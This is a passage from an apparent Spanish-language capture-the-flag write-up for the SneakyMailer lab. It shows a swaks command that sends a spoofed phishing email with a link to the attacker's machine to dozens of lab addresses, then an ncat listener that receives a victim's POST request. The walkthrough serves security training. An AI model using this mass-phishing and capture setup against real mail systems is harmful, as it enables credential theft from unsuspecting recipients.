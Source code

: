 > para instalar la herramienta solo basta con hacer un apt install swaks

Especificaremos con los comandos `from` el correo origen, `--to` la lista de correos que obtuvimos, en el `body` podemos tratar de enviar un enlace a un servidor `http` que nos compartiremos de manera local, de modo que si alguno de los usuarios destinatarios esta abriendo el correo y pinche en el enlace, causara que nos envie una solicitud.

```bash
❯ swaks --from fmiracle@sneakymailer.htb --to tigernixon@sneakymailer.htb,garrettwinters@sneakymailer.htb,ashtoncox@sneakymailer.htb,cedrickelly@sneakymailer.htb,airisatou@sneakymailer.htb,briellewilliamson@sneakymailer.htb,herrodchandler@sneakymailer.htb,rhonadavidson@sneakymailer.htb,colleenhurst@sneakymailer.htb,sonyafrost@sneakymailer.htb,jenagaines@sneakymailer.htb,quinnflynn@sneakymailer.htb,chardemarshall@sneakymailer.htb,haleykennedy@sneakymailer.htb,tatyanafitzpatrick@sneakymailer.htb,michaelsilva@sneakymailer.htb,paulbyrd@sneakymailer.htb,glorialittle@sneakymailer.htb,bradleygreer@sneakymailer.htb,dairios@sneakymailer.htb,jenettecaldwell@sneakymailer.htb,yuriberry@sneakymailer.htb,caesarvance@sneakymailer.htb,doriswilder@sneakymailer.htb,angelicaramos@sneakymailer.htb,gavinjoyce@sneakymailer.htb,jenniferchang@sneakymailer.htb,brendenwagner@sneakymailer.htb,fionagreen@sneakymailer.htb,shouitou@sneakymailer.htb,michellehouse@sneakymailer.htb,sukiburks@sneakymailer.htb,prescottbartlett@sneakymailer.htb,gavincortez@sneakymailer.htb,martenamccray@sneakymailer.htb,unitybutler@sneakymailer.htb,howardhatfield@sneakymailer.htb,hopefuentes@sneakymailer.htb,vivianharrell@sneakymailer.htb,timothymooney@sneakymailer.htb,jacksonbradshaw@sneakymailer.htb,olivialiang@sneakymailer.htb,brunonash@sneakymailer.htb,sakurayamamoto@sneakymailer.htb,thorwalton@sneakymailer.htb,finncamacho@sneakymailer.htb,sergebaldwin@sneakymailer.htb,zenaidafrank@sneakymailer.htb,zoritaserrano@sneakymailer.htb,jenniferacosta@sneakymailer.htb,carastevens@sneakymailer.htb,hermionebutler@sneakymailer.htb,laelgreer@sneakymailer.htb,jonasalexander@sneakymailer.htb,shaddecker@sneakymailer.htb,sulcud@sneakymailer.htb,donnasnider@sneakymailer.htb --body "Entra aqui -> http://10.10.16.2/test" --server 10.10.10.197
=== Trying 10.10.10.197:25...
=== Connected to 10.10.10.197.
<-  220 debian ESMTP Postfix (Debian/GNU)
 -> EHLO hack4u
<-  250-debian
<-  250-PIPELINING
<-  250-SIZE 10240000
<-  250-VRFY
<-  250-ETRN
<-  250-STARTTLS
<-  250-ENHANCEDSTATUSCODES
<-  250-8BITMIME
<-  250-DSN
<-  250-SMTPUTF8
<-  250 CHUNKING
 -> MAIL FROM:<fmiracle@sneakymailer.htb>
<-  250 2.1.0 Ok
 -> RCPT TO:<tigernixon@sneakymailer.htb>
```

Nos ponemos en escucha con `ncat` en el puerto `80` y recibimos una petición post.

```bash
❯ ncat -nlvp 80
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.10.10.197.
Ncat: Connection from 10.10.10.197:39458.
POST /test HTTP/1.1
Host: 10.10.16.2
User-Agent: python-requests/2.23.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 185
Content-Type: application/x-www-form-urlencoded

```